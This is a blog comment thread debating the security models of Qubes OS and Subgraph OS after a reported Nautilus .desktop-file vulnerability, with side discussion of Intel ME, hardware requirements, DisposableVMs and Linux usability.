So for now Qubes is either for geeks (as most Linuxes in the early days), or it should be used strictly on supported hardware. I doubt that most of people, who need such protection, can run Qubes. Qubes devs should seriously look into usability of their system.
(Why I installed Kali after Qubes? I was just tryiing various OSes on the laptop model to see what OS supports what).
OSpace
April 11, 2017 11:39 PM
Of course, Qubes security model and use of a non-monolithic kernel (Xen) makes it superior than anything else. That's why it's my current OS =) However due to the hardware requirement for Qubes 4.x which will not work if one doesn't have VT-x (which must support Extended Page Tables (EPT)) and VT-d (or their equivalent for AMD), I'd simply have to find another OS after the end of support for Qubes 3.2 (which should happen 1 year after the release of Qubes 4.0) simply because I refuse to use an Intel Management Engine backdoored processor. And when that support ends I'll pass to Subgraph.
mello
April 12, 2017 01:50 AM
check out me cleaner and heads projects:
https://github.com/corna/me_cleaner https://github.com/osresearch/heads
they radically reduce the ME without impacting computer functionality. heads also implements some other nice things that reduces the TCB. doesn't remove ME entirely but gets as close as you can.
OSpace
April 12, 2017 07:53 AM
As you mention they don't completely eradicate IME, and from an article by a Purism author he encountered bugs after doing that:
> https://puri.sm/posts/neutralizing-intel-management-engine-on-librem-laptops/
> Unfortunately for me, on one of my machine’s set-ups, the i915 graphics driver would constantly crash with Wayland. I have tried an Ubuntu 16.04 live USB and haven’t had any problems with it, but when trying with two different PureOS installs, I had one being extremely stable while the other had the graphics driver crashing.
I don't think this is worth it.
CPU Backdoors
April 25, 2017 02:30 AM
Qubes, Subgraph, any OS is only secure so long as the underlying hardware (which has access to everything) is secure.
Unfortunately with the recent requirements for Qubes it will become impossible to run it on non-backdoored CPUs (Intel ME, and AMD's PSP), so then the question of whether Qubes is more secure than Subgraph will be meaningless (in practice, although in theory Qubes is obviously more secure).
rElivd
July 1, 2018 04:11 AM
Before never happens, given the rapidly developing progress of malware, aided by the politics of corporate greed lobby|criminal enterprise, the average user already utilises intuitive and easy to understand linux builds. Even microsoft uses linux and apple uses a unix based OS. The majority of portable devices (phones/tablets) and IoT devices already use an OS built from linux, and even microsofts secure IoT chip is using linux.
Manufacturers and developers have been forced to look to more secure and open options. Closed source increasingly limits the development options due to it's licensing model and profitability need. Closed source can be reverse engineered, and though bug bounty programs may reduce cost of after market security requirements, it does not provide the same level of scrutiny and options that open source can provide.
IT systems are increasingly used, and though not all students/employees choose to add coding to their skill set, as the number of coding able and linux/open source oriented individuals grows, ease of use and intuitive design become much more attainable to an increasingly larger audience.
me
April 12, 2017 10:15 AM
they updated! and also fast!! they needed only 8 years: http://www.geekzone.co.nz/foobar/6229 oh, no! wait needed only 11 years: https://lwn.net/Articles/178409/ ....
Micah Lee
April 12, 2017 10:54 AM
lol
me
April 12, 2017 10:28 AM
as stated in many places that is not subgraph "fault", the problem it's in nautilus but the end result doesn't change, the os is compromised. and it's sad to see that the problem is known (at least) since 2006 and still present today
Micah Lee
April 12, 2017 10:57 AM
True. But Subgraph likes to advertise itself as an "adversary resistant computing platform", and acts like it provides a similar level of security to Qubes.
As this bug demonstrates, this just isn't true. The fundamental problem here isn't the Nautilus bug -- it's that most software in Subgraph OS is not run inside of a sandbox, so when one of these pieces of software, like Nautilus, has a bug like this, then that's enough to compromise the whole system. Fixing this one bug is good, but doesn't solve the fundamental problem.
yo
April 12, 2017 12:41 PM
What happens when one of the pieces of software that Qubes trusts has a bug? Why didn't Qubes do anything about .desktop files in all those years?
Micah Lee
April 12, 2017 12:50 PM
.desktop files can't be used to take over a computer running Qubes.
If someone reports a serious vuln to the Qubes project, I'd hope that the Qubes devs would rush to resolve the issue before it was made public. And then when it is made public, I'd hope that the Qubes devs would congratulate the person who found the vulnerability on their skills, and be happy that Qubes is now more secure. Oh wait, this is already how Qubes deals with serious security issues:
https://twitter.com/rootkovska/status/849251603366457348 https://twitter.com/rootkovska/status/850404381350604802
yo
April 12, 2017 01:10 PM
vastly different conclusion than what you draw here "The fundamental problem here isn’t the Nautilus bug — it’s that most software in Subgraph OS is not run inside of a sandbox, so when one of these pieces of software, like Nautilus, has a bug like this, then that’s enough to compromise the whole system. Fixing this one bug is good, but doesn’t solve the fundamental problem."
Finding/fixing Xen bugs one by one is a solution to the fundamental problem?
To be fair
April 12, 2017 01:13 PM
Xen is not a monolithic kernel, finding bugs in it that allow for VM escape is much harder than to find them in a monolithic kernel or regular applications.
To be fair
April 12, 2017 12:51 PM
The AppVM gets compromised, but that's about it. No access to anything other than the AppVM, nor to hardware such as cameras and microphones, unless the attacker has a Xen exploit handy (extremely extremely unlikely).
yo
April 12, 2017 01:03 PM
So you'll only lose all your emails for example? And that's acceptable?
To be fair
April 12, 2017 01:11 PM
No, email attachments should be opened in DisposableVMs (which is their whole point).
yo
April 12, 2017 02:53 PM
Users should just not get phished?
Micah Lee
April 12, 2017 02:57 PM
Qubes has pretty much solved the malicious email attachments problem. You should try actually using Qubes, and see how DisposableVMs are integrated into Thunderbird. You don't seem to have even a basic grasp of how it works.
yo
April 13, 2017 12:24 AM
Qubes has solved phishing by changing user behavior?
Isn't that just a cop out? In any distro you can just not open an attachment.
Are you willing to pay for a Qubes system for me? Because this is all nice and fun but only for rich people.
Micah Lee
April 13, 2017 11:10 AM
No change in behavior required. You just click attachments and they open in DisposableVMs. Again, it's clear that you don't know what you're talking about. See https://micahflee.com/2016/07/how-qubes-makes-handling-pdfs-way-safer/
WhoCares
April 11, 2017 06:02 PM
Debian Squeeze is oldoldstable, I suppose you meant Stretch or Sid (given that package number). You might not read anything about Debian by yourself, or very often? :)
My understanding about SubGraph's "security model" is that whenever it will be ready (whatever that means) of course /etc will be restricted and Nautilus/your favourite file manager will be sandboxed also, just like anything practical, permitting to isolate things per-context (something similar to Qubes' disposable VM indeed, but at that much cheaper application level, speaking of RAM), e.g. it'll offer its users to explore an unzipped archived as you do in your video, safely. So, no, I don't think you are "exploiting SubGraph security model", but only pointing out how premature it is. At least, it is clearly labeled as alpha software.
My guess is, more generally, it's pretty early to imply either SubGraph, or Qubes (as you do) would be any trustable, as yet: neither is build-reproducible to date, and that's a huge deal. While SubGraph might not yet be entirely free software ("booooo"), at least it's Debian and therefore will likely get there a lot quicker than Qubes, which dom0 is (still?) Fedora.
Are you trusting RedHat not to focus on their Customers (now they deploy in-memory kernel patches), but also to spend all efforts distributing each and every patch back "upstream" to their Fedora playground and to their users, or even to upstream kernel, all of it in a timely manner? Let me doubt. Also as pointed in previous comment, Xen has seen a number of exploits (even if only 10% of them would affect Qubes, it's still notable). And so have any kernel-built security strategies. That's not to judge one approach would be better or worse than another, of course the smaller codebase in a dom0 a-la-Qubes would be preferable, but it's only to point that -- given the above issues -- Qubes also, could advertise its alpha status, still today.
By the way, Tails ISO were just announced to be reproducible. Yeah, sure, your "exploit" would apply there, but hey: one may strictly follow Tails user guidelines and isolate reboots or even better, hardware systems.
I suppose there are people with different needs, and hardware requirements. But all would need, first, entirely new hardware platforms (for example, go read Johanna's suggestion on firmware ports, if you haven't already) and those just don't quite exist, yet. Until then, all mitigation approaches will be bare alpha anyway, all of them. Bottom line, if anyone feels clever enough to use Tails or Qubes or SubGraph and follow their user guidelines, then why would they random-click anyway?
So, what's the point of framing such an artificial "fight" between all "attempts" (as you qualify SubGraph), isn't there enough room for all to exist and improve? Hell, I think there is. Long life to Qubes, SubGraph and Tails, in alphabetical order. As for me, I'll stay with Jessie-the-insecure and keep being careful before opening random stuff from the Internetz in any environment.
cooloutac
April 11, 2017 07:54 PM
Subgraph is gonna be in alpha forever I guess.
I would be better off compiling my own grsecurity kernel on debian and using a sandbox solution myself then trusting subgraph. I actually think that would also be easier then trying to use subgraph lol. Qubes is something I can't do myself and imo an os that is more realistic. Its ready for every day use by its basic nature even as it develops.
At least Micah didn't get the hostility from them a nobody troll like me got when bringing up questions to them. But seems he still got a feeling they don't seem to care too much which makes you wonder.
You talk about an artificial fight but then talk about fedora vs debian... come on now. Red Hat exposes some of he most serious linus exploits and their kernel development means it really doesn't matter what distro you use. It also really doesn't matter what distro you are using in dom0. Its Xen.
There isn't a subgraph template, but there is a debian one and a community grsec kernel called coldkernel you can try. you can even use apparmor in qubes easily. I personally like the vm solution over the sandbox solution. Maybe not as resource friendly, but easier to use and more peace of mind. But a sandbox in a vm sure sounds nice.
I can't imagine the subgraph guys wanting to be on anyone elses team though.
heyyess
April 11, 2017 11:59 AM
@Micah One remark concerning the Qubes vs Subgraph debate:
That's not the correct question, using Subgraph with Qubes is the ideal thing. You get the protections from Grsecurity/PaX, from the sandbox, ... which makes making attacks harder. And then on top of that there's the Qubes isolation which would require the attacker to exploit Xen.
Hopefully will see a Subgraph template soon https://github.com/subgraph/subgraph-os-issues/issues/153
Micah Lee
April 11, 2017 02:12 PM
The Subgraph TemplateVM project is basically stalled right now because it appears that Subgraph isn't 100% open source yet, and non-Subgraph devs don't have the ability to build their own ISOs yet.
But that said, I'm really looking forward to the work that coldhak is doing. Soon there will be grsecurity kernels built for Debian, Fedora, and Whonix TemplateVMs: https://groups.google.com/forum/#!msg/qubes-users/AMqpGMuy9vI/A2xGAk7NAgAJ
Alex
April 11, 2017 03:35 PM
Hey, did you really mean to write "Debian Squeeze"? That's Debian 6.0, so super old by now. I think you mean "Stretch".
Micah Lee
April 11, 2017 03:50 PM
I totally meant stretch. Thanks, typo fixed.
Jacob
April 14, 2017 01:41 PM
The fact that not every program on the OS is run in Oz is understandable IMO and I don't think they can get blamed for not having made a profile for every program yet.
What astounds me however is the way they responded. Pointing out a spelling error as a response to "Hey are you gonna fix this?" seems like a real douche thing to do and that's saying something since I'm a grammar nazi myself. The proper way would be to give a yes or no answer: Yes we are going to force Natilis [sic] to run inside of Oz. No we are not going to force Natulis [sic] to run inside of Oz.
Personally I've wanted to try Subgraph multiple times in Virtualbox but the damn thing won't even install properly! I'm running Windows 10 as a host and currently my security setup is something like this: Chrome/qBittorrent/Media Player Classic/SumatraPDF inside of Sandboxie on an SUA account. I realize it's not perfect, but what's keeping me from installing Qubes is the fact that they don't seem to have fixed UEFI Secure Boot support yet. Same thing with Subgraph while we're at it.
Is there an actual way of running a virtual machine on a Windows 10 host without videos run in the virtualized browser being laggy? Just curious.
Tip
April 13, 2017 12:19 AM
Hey Micah! Great article! A bit off-topic: if you want Google to actually work with Tor disable Javascript (by using the high security mode) then go to https://ipv4.google.com/ then search and it will give you a much simpler text captcha that you can quickly solve.
Alternative: go to web proxy sites such as kproxy.com, and then go to google.com to search.
Jean
April 13, 2017 12:25 AM
Also there are no more Cloudflare captchas if one uses the Tor Browser Bundle. Chromium users who torify it (using Whonix in Qubes for example) are missing out and exposing themselves to fingerprinting attacks.
loooool
April 12, 2017 04:00 AM
micach flee: "you have a huge hole in your os, it's enough to double click on something to take over the pc (like on windows)"
subgraph: "that's not important, what is important is that there is a typo in your article!!! nautilus-nautilis"
https://twitter.com/subgraph/status/851843464115441664
OSpace
April 12, 2017 07:57 AM
To be fair they fixed it (after you upgrade), but Micah's whole point was about how Subgraph's security model cannot in any way be compared to the superior Qubes OS, the vulnerability he illustrated was a perfect example as to why (bug leading to entire OS compromise, and access to physical devices such as a webcam, microphone, ... Something that Qubes would protect one against (only files inside the AppVM would be compromised) especially while using DisposableVMs).
anon
April 12, 2017 03:26 AM
subgraph answer: "but it's still in alpha!! so no problem"
operating systems and it's processes are DESIGNED to communicate each other. it doesn't matter how hard you try. process needs inter-process communication and os will always allow it.
qubes is different, they use virtual machines that are way better than sandbox: sandbox is trying to close (in a limited way) something designed to be open, that can't be fully closed (closed=isolated=secure) virtual machine is keeping close something designed to be close
qubes is out-of-the-box security users doesn't need to tweak settings worry about which programs they install or which files they open. the fact that you will get a virus it's the base design of qubes: they assume that you will get one and that the computer must continue to work and be secure.
Anonymous
July 11, 2017 10:03 AM
The major problem with Qubes, and most every Linux distro, is the same problem with most open source security tools: it's not intuitive and easy for the standard user. The vast majority of open source developers don't understand this, and that's why open source can't even remotely compete against Windows and Apple for desktop users. It's psychological; if software doesn't work easily, most people aren't going to use it, no matter what benefits doing so would bring. The average user doesn't care about the ethical arguments for why they should use free software; they care about if it works. People are lazy and despite constant breaches, they still re-use simple passwords across websites; these people aren't ever going to be willing to learn how to use a command line or search for drivers. The bottom line is that if free / open source OSes and security tools are ever going to seriously compete in the desktop user space for a major portion of market share, developers are going to have to focus on making things work seamlessly for the average user. Now, it's fine for there to be specialized niche software (Qubes presently falls into this category), but this will never make its way into common deksptop use, either by everyday users or even by people who need it most in high risk environments, unless it works easily out of the box. Canonical / Mint are two of the only entities in the Linux world who understand this and plan accordingly, and the objective statistics of their user bases prove that. As more and more things (including OSes themselves) move into a restrictive cloud/software rental environment, there will be a golden opportunity for Linux / open source to reach hundreds of millions of new desktop users, but developers have to focus on making it work out of the box for grandmas, if you will, in order for that to happen.
T
March 19, 2018 11:35 PM
I enjoyed this blog post. I am a user of Qubes, but always looking around and trying other things. I have wanted to try Subgraph, but I won't until it makes it out of Alpha, which it appears will be just about never.
As far as those that say Qubes has too many limitations due to hardware, you can find troubleshooting guides all over the internet. I have a computer that I tried and tried to use it on, screen would go blank after the penguins, I finally got it going after actually putting some work into it. Security isn't free, sometimes you have to give it a little effort.